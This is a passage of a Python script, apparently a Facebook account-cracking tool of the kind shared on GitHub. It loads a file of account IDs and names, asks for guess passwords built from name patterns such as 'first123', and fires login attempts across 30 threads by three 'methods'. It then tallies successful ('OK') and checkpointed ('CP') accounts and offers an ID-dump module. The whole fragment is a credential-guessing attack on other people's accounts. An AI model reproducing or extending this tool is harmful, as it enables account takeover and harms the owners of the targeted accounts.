                         xd=input(' Choose an option: ')
                        if xd in ['1','01']:
                                clear()
                                print(' Put file example:  /sdcard/File.txt  etc..')
                                linex()
                                file = input(' Put file path\033[1;37m: ')
                                try:
                                        fo = open(file,'r').read().splitlines()
                                except FileNotFoundError:
                                        print(' File location not found ')
                                        time.sleep(1)
                                        menu()
                                clear()
                                print(' All method working try 1 by 1 ')
                                linex()
                                print(' [1] Method 1 (for new ids) \n [2] Method 2 (for mix ids)(best)\n [3] Method 3 (for old ids)')
                                linex()
                                mthd=input(' Choose: ')
                                linex()
                                plist = []
                                try:
                                        ps_limit = int(input(' How many passwords do you want to add ? '))
                                except:
                                        ps_limit =1
                                linex()
                                print('\033[1;32m exp: first last,firtslast,first123')
                                linex()
                                for i in range(ps_limit):
                                        plist.append(input(f' Put password {i+1}: '))
                                linex()
                                print(' Do you went show cp account? (y/n): ')
                                linex()
                                cx=input(' Choose: ')
                                if cx in ['y','Y','yes','Yes','1']:
                                        pcp.append('y')
                                else:
                                        pcp.append('n')
                                with tred(max_workers=30) as crack_submit:
                                        clear()
                                        total_ids = str(len(fo))
                                        print(' Total account : \033[1;32m'+total_ids+f' \033[1;33m>\033[1;36m> \033[1;37mMethod -> \033[1;37mM{mthd}')
                                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")
                                        linex()
                                        for user in fo:
                                                ids,names = user.split('|')
                                                passlist = plist
                                                if mthd in ['1','01']:
                                                        crack_submit.submit(ffb,ids,names,passlist)
                                                elif mthd in ['2','02']:
                                                        crack_submit.submit(api,ids,names,passlist)
                                                else:
                                                        crack_submit.submit(api1,ids,names,passlist)
                                print('\033[1;37m')
                                linex()
                                print(' The process has completed')
                                print(' Total OK/CP: '+str(len(oks))+'/'+str(len(cps)))
                                linex()
                                input(' Press enter to back ')
                                os.system('python bht.py')
                        elif xd in ['2','02']:
                                import dump
                                dump.Main()